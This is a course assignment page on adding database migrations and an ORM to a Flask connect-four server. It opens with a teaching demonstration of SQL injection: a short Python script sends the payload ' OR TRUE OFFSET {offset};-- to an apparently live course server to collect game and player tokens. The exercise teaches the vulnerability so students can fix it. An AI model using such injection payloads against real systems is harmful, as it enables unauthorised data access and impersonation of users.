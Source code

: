 # Database Migration & Security

Monday 07.12.2020

## Objectives
Today we want to add database migration to our server, so that we can upgrade or downgrade our database schema as needed.
We will also refactor our database code so that it's using an ORM to improve code readability and security.
- [ ] See how our current server is vulnerable to SQL injection attacks.  
- [ ] Setup flask-sqlalchemy as our ORM.
- [ ] Generate migrations for our database.
- [ ] Update the migrations for our database.
- [ ] (Bonus) Setup security scanning for our repository.

## Part 1 - SQL injection

SQL injections are one of the most common security vulnerabilities in applications in the world.
It's a code injection technique where malicious code is inserted into an entry field for execution.

If you are using the code we gave you for the server in week 2, your code is vulnerable to this type
of attack:

`1337hack.py`
~~~python
import requests
import sys

offset=sys.argv[1]

response = requests.get("http://connect-four-server-production.dr3amt3am.hgopteam.com/get_game", params={
    "gameId": f"' OR TRUE OFFSET {offset};--",
    "playerId": ""
})

print(response.json())
~~~

```bash
python 1337hack.py [OFFSET:int]
```

Using the code above an attacker can scan the games in the TA's database and get hold of gameId tokens and playerId tokens
and using those the attack is capable impersonating users.

In your answers for the day, write in:


- All the SQL statements that get executed on the server when you execute the test above. You can figure this out by looking at
how the request data (gameId and playerId) are used by the server and sent to the database.
